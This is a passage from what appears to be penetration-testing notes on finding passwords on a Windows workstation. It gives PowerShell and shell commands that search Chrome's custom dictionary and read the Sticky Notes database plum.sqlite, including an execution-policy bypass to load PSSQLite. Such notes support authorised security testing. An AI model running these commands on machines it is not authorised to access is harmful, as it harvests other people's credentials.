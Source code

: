 ```powershell
# PowerShell:
gc 'C:\Users\<USERNAME>\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password
```

## Sticky Notes

People often use the StickyNotes application on Windows workstations to store passwords and other information, not realizing that it is a database file. This file is located in:

```shell
# File location:
C:\Users\<USERNAME>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite
# Other files
> ls

Directory: C:\Users\leviswings\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         7/14/2022  00:30 AM          20181 15cbbc93e90a4d56bf8d9a29305b8981.storage.session
-a----         7/14/2022  00:30 AM            845 Ecs.dat
-a----         7/14/2022  00:30 AM           5034 plum.sqlite
-a----         7/14/2022  00:30 AM          33945 plum.sqlite-shm
-a----         7/14/2022  00:30 PM         18924 plum.sqlite-wal

# Search:
cd C:\Users\<USERNAME>\AppData
dir -recurse | Select-Object FullName | Select-String "Sticky"
```

Read credentials:

```shell
# Method #1:
type plum.sqlite | Format-Hex
type .\plum.sqlite | Format-Hex | Select-String ":"

# Method #2:
## - We transfer the files to our machine.
strings plum.sqlite

# Method #4:
## - We transfer the files to our machine.
sqlite3 plum.sqlite
SELECT Text FROM Note;

# Method #4 (PSSQlite):
## - We transfer the files to our machine.
git clone https://github.com/RamblingCookieMonster/PSSQLite
cd PSSQLite/PSSQLite
pwsh
Set-ExecutionPolicy Bypass -Scope Process
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A
Import-Module .\PSSQLite.psd1
$db = '<PATH>\plum.sqlite'
Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap
```
